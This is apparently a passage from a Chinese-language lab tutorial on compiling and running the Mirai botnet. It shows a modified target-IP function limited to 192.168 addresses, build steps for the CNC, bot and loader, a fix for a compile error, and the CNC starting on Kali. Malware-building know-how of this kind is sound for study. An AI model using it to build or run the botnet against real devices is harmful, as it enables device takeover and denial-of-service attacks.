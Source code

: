 ```cc
          (o1 == 6 || o1 == 7 || o1 == 11 || o1 == 21 || o1 == 22 || o1 == 26 || o1 == 28 || o1 == 29 || o1 == 30 || o1 == 33 || o1 == 55 || o1 == 214 || o1 == 215) // Department of Defense
    );

    return INET_ADDR(192,168,o3,o4); // 写死前两段
}

```

### 编译产物

1. Compile CNC & Bot:

```
cd mirai/
mkdir debug
./build.sh debug telnet
```

1. Compile Loader:

```
cd ../loader/
./build.sh
```

编译 debug 可能遇到报错：`multiple definition of 'LOCAL_ADDR'`

需要：

在头文件 (`bot/includes.h`) 中使用 `extern` 关键字来声明变量，告诉编译器这个变量在别处定义：

```c
        // bot/includes.h //
        ... 其他内容 ...
        extern int LOCAL_ADDR; // 声明变量存在
        // ... 其他内容 ...
```

在 mirai/bot/main.c 中

```c
        `// bot/main.c (或者其他某个 .c 文件)
        #include "includes.h" // 
        ... 其他代码 ...
        ipv4_t LOCAL_ADDR;
```

## 运行 mirai

### 执行之前编译的 cnc

```bash
┌──(root㉿kali)-[/home/kali/my-mirai/Mirai-Source-Code/mirai]
└─# ./debug/cnc
Mysql DB opened
```
